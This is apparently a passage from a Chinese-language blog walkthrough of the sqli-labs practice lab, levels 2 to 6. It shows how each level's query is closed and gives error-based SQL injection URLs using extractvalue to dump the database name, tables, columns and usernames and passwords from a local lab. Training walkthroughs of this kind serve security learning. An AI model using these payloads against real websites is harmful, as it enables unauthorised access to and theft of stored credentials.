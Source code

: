 2、Less-2
经尝试猜测的后台SQL语句如下：

    SELECT * FROM users WHERE id=$id LIMIT 0,1
所以构造URL时不需要单引号等等这些闭合手段，其余和关卡一类似
3、Less-3
经尝试猜测的后台SQL语句如下：

    SELECT * FROM users WHERE id=('$id') LIMIT 0,1
所以构造URL时使用')闭合，其余步骤类似

4、Less-4
经尝试猜测后台的SQL语句如下：

    SELECT * FROM users WHERE id=("$id") LIMIT 0,1
所以构造URL时使用")闭合，和关卡3类似

5、Less-5
单引号闭合，和关卡6类似，在关卡6进行详细说明

6、Less-6
(1)首先按照提示在url中输入`?id=1`观察发现无login name和password回显
![less-6.1][14]
(2)构造 `URL：http://127.0.0.1/sqli-labs/Less-6/?id=1'`并访问，页面正常说明单引号没有拼接到后台 SQL 语句，再使用双引号闭合页面提示SQL语句语法错误，说明双引号被拼接到后台
![less-6.2][15]
(3)构造 URL：`http://127.0.0.1/sqli-labs/Less-6/?id=1" ORDER BY 2--+`，数字增大为 4 时页面返回报错信息，表明数据表的列数为3列
![less-6.3][16]

**爆破：**由于没有回显位，所以使用extractvalue(xml_frag,xpath_expr)函数，其中字符串参数：XML标记片段 xml_frag和XPath表达式 xpath_expr（也称为定位器）; 它返回CDATA第一个文本节点的text()，该节点是XPath表达式匹配的元素的子元素。当xpath格式错误时，函数的报错信息显示XPATH syntax error:第二个参数的信息/执行结果。所以可以利用这个函数的特性，将想要获得的数据库内容放在第二个参数的位置，通过报错信息显示出来。（updatexml函数也有类似效果）
(4)爆库名：构造 URL：`http://127.0.0.1/sqli-labs/Less-6/?id=1"and extractvalue(1,concat(0x23,database(),0x23))--+`，concat函数可用可不用，将#和想要获取数据库的数据库内容用concat连接起来只是为了突出显示，也可以单独extractvalue(1,database())
![less-6.4][17]
(5)爆表名：构造URL: `http://127.0.0.1/sqli-labs/Less-6/?id=1"and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit num,1),0x23))--+`，其中num的数值从0开始逐一递增将所有表名回显。limit函数用于强制sql语句返回指定记录数，接受一个或两个整型参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目，由于回显位限制，每次只能一行，因此通过改变第一个参数将表名遍历。
![less-6.5][18]
(6)爆列名：构造URL：`http://127.0.0.1/sqli-labs/Less-6/?id=1"and extractvalue(1,concat(0x23,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit num,1),0x23))--+`，num从0开始逐一递增，users表的列名有id, usrname, password
![less-6.6][19]
(7)爆记录：构造URL：`http://127.0.0.1/sqli-labs/Less-6/?id=1"and extractvalue(1,concat(0x23,(select username from users limit 1,1),0x23))--+`，用户名回显后将username改为paswword
![less-6.7][20]
![less-6.8][21]

Less-7~Less-9可以参考开头的链接


  [1]: https://blog.csdn.net/qq_39670065/article/details/106762824?utm_medium=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control
  [2]: https://github.com/Audi-1/sqli-labs
  [3]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.1.png
  [4]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.2.png
  [5]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.3.png
  [6]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.4.png
  [7]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.5.png
  [8]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.6.png
  [9]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.7.png
  [10]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.8.png
  [11]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.9.png
  [12]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.10.png
  [13]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.11.png
  [14]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.1.png
  [15]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.2.png
  [16]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.3.png
  [17]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.4.png
  [18]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.5.png
  [19]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.6.png
  [20]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.7.png
  [21]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.8.png
  [22]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.1.png
  [23]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.2.png
  [24]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.3.png
  [25]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.1.png
  [26]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.2.png
  [27]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.3.png
  [28]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.4.png
  [29]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.5.png
  [30]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.6.png
  [31]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.7.png
  [32]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.8.png
  [33]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.9.png
  [34]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.1.png
  [35]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.2.png
  [36]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.3.png
  [37]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.4.png
  [38]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.5.png
  [39]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.6.png
  [40]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.7.png
  [41]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.8.png
  [42]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.9.png
  [43]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.1.png
  [44]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.2.png
  [45]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.3.png
  [46]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.4.png
  [47]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.5.png
  [48]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.6.png
  [49]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.7.png